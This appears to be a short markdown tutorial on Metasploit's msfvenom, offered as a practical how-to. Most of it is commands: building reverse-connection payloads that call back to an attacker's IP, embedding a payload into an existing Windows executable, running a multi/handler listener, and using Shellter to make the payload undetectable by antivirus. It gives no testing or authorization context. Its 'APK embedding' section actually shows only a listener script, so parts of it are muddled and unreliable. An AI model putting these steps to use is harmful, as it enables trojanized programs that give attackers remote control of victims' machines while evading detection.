 # Msfvenom Practical Guide

## Generating Standalone Payloads and Listeners

Msvenom is a powerful tool in the Metasploit framework used for payload generation. It allows you to create payloads for various platforms.

### Basic Payload Generation

To generate a basic payload for a specific platform, use the following command:

```bash
msfvenom -p [payload] -f [format] LHOST=[your_IP] LPORT=[port] -o [output_filename]
```
      Replace [payload] with the desired payload.
      Specify the format with -f (e.g., exe, apk, etc.).
      Set your IP with LHOST and the desired port with LPORT.
      Save the output with -o [output_filename].

# Embedding Payloads to {.exe} File

### Embedding into Windows Executable (exe)

You can embed a payload into an exe file using the following steps:

 Generate the payload as discussed earlier.
    Find a suitable exe file for embedding.

`msfvenom -x [existing_exe] -k -p [payload] LHOST=[your_IP] LPORT=[port] -o [output_filename]`

Replace [existing_exe] with the path to the existing exe file.



# Embedding into Android Application (APK)

### Embedding into an APK involves using the Metasploit resource script.

Generate the payload.
Create a resource script (e.g., embed.rc) with the following:
```
use exploit/multi/handler
set payload [payload]
set LHOST [your_IP]
set LPORT [port]
set ExitOnSession false
exploit -j
```
Load the resource script:

`msfconsole -r embed.rc
`

# Creating Fully-Undetectable Payloads
### Using Shellter for Antivirus Evasion

Shellter is a dynamic shellcode injection tool. Follow these steps:

Generate a payload:
`msfvenom -p [payload] -f exe LHOST=[your_IP] LPORT=[port] -o payload.exe
`

Run Shellter:
`wine shellter.exe
`

    Select 4 - Modify an existing executable file.
    Choose the generated payload.exe.
    Follow on-screen instructions to complete the process.

Now you have a fully-undetectable payload using Shellter.

